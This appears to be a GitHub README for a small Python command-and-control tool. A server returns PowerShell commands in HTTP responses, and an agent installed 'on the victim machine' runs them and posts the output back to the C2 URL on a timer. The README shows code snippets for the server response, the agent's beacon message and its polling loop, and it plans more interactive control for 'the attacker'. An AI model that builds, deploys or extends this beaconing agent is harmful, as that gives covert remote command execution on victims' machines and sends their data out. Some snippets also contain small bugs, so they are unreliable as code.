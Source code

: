 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 server that allows you to run Powershell commands. 
I am still a n33b at this but I believe that I will get better through help and suggestions from the community : ) 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage

For now you can only ran a command at a time. Open server.py and enter the command you want to be in the http response as shown below

``` 
        response_string = "whoami"

        # Set the response headers
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.send_header("Content-Length", len(response_string))
        self.end_headers()

        #send response string 
        self.wfile.write(response_string.encode('utf-8'))
```

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL 
    # This string will be sent to C2 to verify it's alive and return output of a command ran
    message_body = "ALIVE, Command Response: {}".format(output)
```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
if command_to_run:
            output = run_powershell_command(command_to_run)     
        time.sleep(10)  
        count =+ 1
```

## Improvement Plan

1. Create a mechanism that lets the attacker enter commands before the next POST request is recieved

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
